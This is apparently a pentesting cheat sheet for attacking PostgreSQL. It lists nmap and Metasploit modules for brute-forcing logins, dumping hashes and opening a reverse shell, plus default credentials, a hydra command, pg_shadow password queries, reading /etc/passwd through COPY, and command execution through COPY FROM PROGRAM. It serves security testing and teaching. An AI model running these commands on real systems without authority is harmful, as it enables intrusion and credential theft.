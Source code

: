 ```yaml
---
description: >-
  PostgreSQL is an open source database which can be found mostly in Linux
  operating systems.
---
```


# 5432 - PostgresSQL

PostgreSQL is an open source database which can be found mostly in Linux operating systems. However it has great compatibility with multiple operating systems and it can run in Windows and MacOS platforms as well. If the database is not properly configured and credentials have been obtained then it is possible to perform various activities like read and write system files and execution of arbitrary code.

## Enumeration

### Nmap

**Version disclosure** 

`Use nmap -sV -p 5432 10.0.0.1`

**Bruteforce credentials:**

`nmap -p 5432 --script pgsql-brute` 

### Metasploit

**Version disclosure** 

`auxiliary/scanner/postgres/postgres_version` 

**Bruteforce login:** 

`auxiliary/scanner/postgres/postgres_login` 

**Dump scheme:** 

`auxiliary/scanner/postgres/postgres_schemadump` 

**Database enumeration:** 

`auxiliary/admin/postgres/postgres_sql` 

**Hashdump:** 

`auxiliary/scanner/postgres/postgres_hashdump` 

**Read files:** 

`auxiliary/admin/postgres/postgres_readfile` 

**Reverse shell** 

`exploit/linux/postgres/postgres_payload` 

## Login

Login using psql:

`psql -h 192.168.100.11 -U postgres`

## Common/default credentials

| Username | Password |
| :--- | :--- |
| postgres | postgres  |
| postgres  | password  |
| postgres  | admin |
| admin | admin |
| admin | password |

### Bruteforce login credentials:

```text
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt 192.168.1.120 postgres
```

## Commands

<table>
  <thead>
    <tr>
      <th style="text-align:left">Description</th>
      <th style="text-align:left">Command</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">List databases</td>
      <td style="text-align:left">\l</td>
    </tr>
    <tr>
      <td style="text-align:left">List databases users</td>
      <td style="text-align:left">\du</td>
    </tr>
    <tr>
      <td style="text-align:left">List existing tables</td>
      <td style="text-align:left">\dt</td>
    </tr>
    <tr>
      <td style="text-align:left">Connect to a specific database</td>
      <td style="text-align:left">\c database_name;</td>
    </tr>
    <tr>
      <td style="text-align:left">Get detailed information on a table</td>
      <td style="text-align:left">\d+ table_name</td>
    </tr>
    <tr>
      <td style="text-align:left">Get table content</td>
      <td style="text-align:left">select * from table_name;</td>
    </tr>
    <tr>
      <td style="text-align:left">Retrieving database passwords</td>
      <td style="text-align:left">
        <p>SELECT * FROM users;</p>
        <p>OR
          <br />select usename, passwd from pg_shadow</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">Dumping databases content</td>
      <td style="text-align:left">
        <p>SELECT usename, passwd FROM pg_shadow;
          <br />OR</p>
        <p>pg_dump --host=192.168.100.11 --username=postgres --password --dbname=template1
          --table=&apos;users&apos; -f output_pgdump</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">Create a new database</td>
      <td style="text-align:left">CREATE DATABASE [IF NOT EXISTS] db_name;</td>
    </tr>
    <tr>
      <td style="text-align:left">exit the database</td>
      <td style="text-align:left">\q</td>
    </tr>
  </tbody>
</table>

## Command execution

PostgreSQL databases can interact with the underlying operating by allowing the database administrator to execute various database commands and retrieve output from the system. 

Run: 

`postgres=# select pg_ls_dir('./');` 

By executing the following command it is possible to read server side postgres files. 

`postgres=# select pg_read_file('PG_VERSION', 0, 200);` 

It is also possible to create a database table in order to store and view contents of a file that exist in the host. 

```text
postgres-# CREATE TABLE temp(t TEXT); 
postgres-# COPY temp FROM '/etc/passwd'; 
postgres-# SELECT * FROM temp; 
```

OR use the metasploit module 

`Auxiliary/admin/postgres/postgres_readfile` 

### Execute command

```text
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'sudo -l';
SELECT * FROM cmd_exec;

```


